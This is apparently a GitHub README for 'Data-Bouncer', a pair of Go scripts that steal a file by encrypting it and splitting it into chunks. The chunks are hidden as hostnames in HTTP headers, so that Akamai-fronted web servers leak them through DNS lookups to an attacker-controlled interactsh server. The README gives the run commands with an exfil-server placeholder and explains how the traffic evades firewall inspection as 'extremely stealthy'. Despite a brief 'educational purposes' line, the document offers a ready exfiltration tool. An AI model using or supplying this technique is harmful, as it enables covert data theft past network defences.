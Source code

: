# Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for educational purposes. Please don't do anything illegal.

One script that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under your control for this to work and to collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. It first encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <exfil server url> -v
```
```
.\bounce.exe -f <filename> -p <password> -u <UUID> -e <exfil server url> -v
```

### Regenerate.go
This script reads the JSON export from your interactsh exfil server, processes and reassembles the chunks, doing the reverse by decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```
```
.\regenerate.exe -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and does a dns lookup of our exfil server from those headers.
- Then we're able to collect each of those dns lookups to our exfil server and reconstruct the data from these headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those very same headers between endpoints.
- Therefore, this makes it an extremely stealthy way of exfiltrating data albeit a slow one.
